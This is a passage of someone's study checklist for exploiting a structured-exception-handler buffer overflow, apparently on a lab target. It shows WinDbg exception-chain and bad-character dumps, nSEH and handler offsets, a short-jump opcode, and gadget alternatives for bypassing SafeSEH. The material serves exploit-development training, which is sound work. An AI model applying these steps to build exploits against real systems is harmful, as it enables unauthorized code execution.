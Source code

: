     #lookout for the EXCEPTION_RECORD if ffffffff the 
    #application didn't handled it and the default OS handler did since its at the bottom of the chain
    ```
    
- [ ]  Find offsets to the required locations ([https://wiremask.eu/tools/buffer-overflow-pattern-generator/](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
    - overwrite the current SE Handler (should be right after the “next SEH” )
    - overwrite the next SEH (with jump to shellcode)
    - shellcode location
    
    ```powershell
    0:008> !exchain
    0172fe0c: libpal!md5_starts+149fb (008fdf5b)
    0172ff44: 33654132                                [128 offset SE Handler] (SEH)
    Invalid exception stack at 65413165               [124 offset Next SEH] (nSEH)
    ```
    
- [ ]  Identify bad characters dump  `EstablishFrame` bytes.
    
    ```powershell
    #Use Mona in future
    
    42424242 ??              ???
    0:008> dds esp L5
    0179f440  771c5af2 ntdll!ExecuteHandler2+0x26
    0179f444  0179f540
    0179f448  0179ff44                 [VOID EstablishFrame]
    0179f44c  0179f55c
    0179f450  0179f4cc
    0:008> db 0179ff44
    0179ff44  41 41 41 41 42 42 42 42-01 00 00 00 ec 07 90 00  AAAABBBB........
    0179ff54  10 3e 90 00 d8 5f e7 00-72 40 90 00 98 7a e6 00  .>..._..r@...z..
    0179ff64  d8 5f e7 00 24 3e 90 00-98 7a e6 00 10 3e 90 00  ._..$>...z...>..
    0179ff74  39 cf aa 75 d8 5f e7 00-20 cf aa 75 dc ff 79 01  9..u._.. ..u..y.
    0179ff84  b5 26 14 77 d8 5f e7 00-30 bb a7 60 00 00 00 00  .&.w._..0..`....
    0179ff94  00 00 00 00 d8 5f e7 00-00 00 00 00 00 00 00 00  ....._..........
    
    0:008> db 0171ff44 L1000
    0171ff44  41 41 41 41 42 42 42 42-01 03 04 05 06 07 08 09  AAAABBBB........
    0171ff54  0b 0c 0e 0f 10 11 12 13-14 15 16 17 18 19 1a 1b  ................
    0171ff64  1c 1d 1e 1f 20 21 22 23-24 25 26 27 28 29 2a 2b  .... !"#$%&'()*+
    0171ff74  2c 2d 2e 2f 30 31 32 33-34 35 36 37 38 39 3a 3b  ,-./0123456789:;
    0171ff84  3c 3d 3e 3f 40 41 42 43-44 45 46 47 48 49 4a 4b  <=>?@ABCDEFGHIJK
    0171ff94  4c 4d 4e 4f 50 51 52 53-54 55 56 57 58 59 5a 5b  LMNOPQRSTUVWXYZ[
    0171ffa4  5c 5d 5e 5f 60 61 62 63-64 65 66 67 68 69 6a 6b  \]^_`abcdefghijk
    0171ffb4  6c 6d 6e 6f 70 71 72 73-74 75 76 77 78 79 7a 7b  lmnopqrstuvwxyz{
    0171ffc4  7c 7d 7e 7f c2 80 c2 81-00 ff 71 01 b0 84 1b 77  |}~.......q....w
    0171ffd4  db 94 77 cb 00 00 00 00-ec ff 71 01 89 26 14 77  ..w.......q..&.w
    0171ffe4  ff ff ff ff 7e 5c 1c 77-00 00 00 00 00 00 00 00  ....~\.w........
    0171fff4  10 3e 8e 00 c0 5e df 00-00 00 00 00 ?? ?? ?? ??  .>...^......????
    ```
    
- [ ]  Add jump code (P/P/R) `0xeb,0x06,0x90,0x90` to jump over SE handler
    
    ```powershell
    #Alternatives to (p/p/r)
    #Use mona SEH module
    1 pop r32 / pop r32 / ret (+ offset)
    2 pop r32 / add esp+4 / ret (+ offset)
    3 add esp+4 / pop r32 / ret (+offset)
    4 add esp+8 / ret (+offset)
    5 call dword [ebp+ or -offset]
    6 jmp dword [ebp+ or -offset]
    7 popad / push ebp / ret (+ offset)
    #check protections with narly, we want SafeSEH off
    .load narly
    lm m libspp